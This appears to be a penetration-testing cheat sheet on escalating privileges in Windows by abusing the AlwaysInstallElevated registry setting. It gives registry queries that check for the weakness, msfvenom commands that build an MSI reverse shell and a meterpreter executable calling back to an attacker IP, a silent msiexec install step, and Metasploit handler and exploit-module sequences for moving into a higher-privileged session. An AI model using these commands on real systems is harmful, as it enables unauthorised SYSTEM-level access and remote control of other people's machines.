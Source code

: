 If both the values AlwaysInstallElevated registries are set, `.msi` files will be downloaded as the superuser.

Check AlwaysInstallElevated priveleges, both have to be `0x1` to be exploitable:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   // Current User
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   // Local Machine
```

Generate msfvenom MSI reverse shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi
```

Execute the reverse shell:
```
msiexec /quiet /qn /i REVERSE_SHELL_PATH
```

## Sessions
When the exploit does not work, chances are it's because it's a `session-0` type.

### Runas solution
This requires the password.
```
runas /user:USERNAME "msiexec.exe /qn /i ABSOLUTE_LOCATION"    // "/qn" --> quiet, no prompt "/i" --> install
```

### Metasploit solution
To check and/or migrate, use metasploit.
First, use your `meterpreter` shell and listener:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o meterpreter_reverse.exe
// Upload this to the machine
```

```
use exploit/multi/handler
set LHOST tun0
set LPORT 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

After running the reverse shell executable, you'll get a shell back.
```
getpid // Shows meterpreter PID
ps     // Trace back the PID and Parent-PID (PPID). There you can see the session type.
```

Migration:
```
migrate ANY_SESSION_1_PROCESS    // some work, some might not
```

Backgrounding:
```
bg
search always_install_elevated
use 0
show options
set LHOST tun0
set LPORT 5555
set SESSION $SESSION   // use session from backgrounding
exploit
```